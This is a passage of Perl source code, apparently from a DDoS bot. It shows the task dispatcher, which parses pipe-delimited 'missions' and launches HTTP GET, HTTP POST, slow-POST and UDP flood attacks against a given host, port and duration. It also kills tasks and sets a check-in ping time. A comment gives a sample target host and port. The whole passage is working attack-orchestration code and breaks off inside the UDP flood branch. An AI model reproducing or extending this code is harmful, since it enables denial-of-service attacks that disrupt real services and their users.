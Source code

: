 	print "killTask $taskToKill, pid = $pid\n";

	#kill 1, $pid;
	kill 9, $pid;
	delete $tasks{$taskToKill};
}

sub startNewTask {
	my $taskToStart	= $_[0];

	print "startNewTask $taskToStart\n";

	my ($missionId, $missionType, $rest) = split /\|/, $taskToStart;

	if ($missionType eq 'get'){
		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {
			#print "id = $1| type = $2| host = $3| port = $4| path = $5| sleep = $6| duration = $7| pingtime = $8\n";
			$tasks{$taskToStart} = attackHttpGet($3, $4, $5, $6, $7);
			setPingTime($8);
		} else {
			print "malformed GET task\n";
			return;
		}
	}elsif ($missionType eq 'post'){
		print "http post\n";
		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {
			#print "id = $1| type = $2| host = $3| port = $4| path = $5| sleep = $6| content = $7 | duration = $8| pingtime = $9\n";
			$tasks{$taskToStart} = attackHttpPost($3, $4, $5, $6, $7, $8);
			setPingTime($9);
		} else {
			print "malformed POST task\n";
			return;
		}
	}elsif ($missionType eq 'slowpost'){
		print "http slow post\n";		# TODO

		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {  #id3|slowpost|ya3.ru|3128|/index.html|20|1024|30|PING_TIME',
			print "id = $1| type = $2| host = $3| port = $4 | path = $5 | sleep = $6 | maxbodylen = $7| duration = $8| pingtime = $9\n";
			$tasks{$taskToStart} = attackSlowPost($3, $4, $5, $6, $7, $8);
			print "pid = $tasks{$taskToStart}\n";
			setPingTime($9);
		} else {
			print "malformed SLOW task\n";
			return;
		}	

	}elsif ($missionType eq 'udpflood'){
		print "udpflood\n";
		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {
			#print "id = $1| type = $2| host = $3| port = $4| packetsize = $5 | duration = $6| pingtime = $7\n";

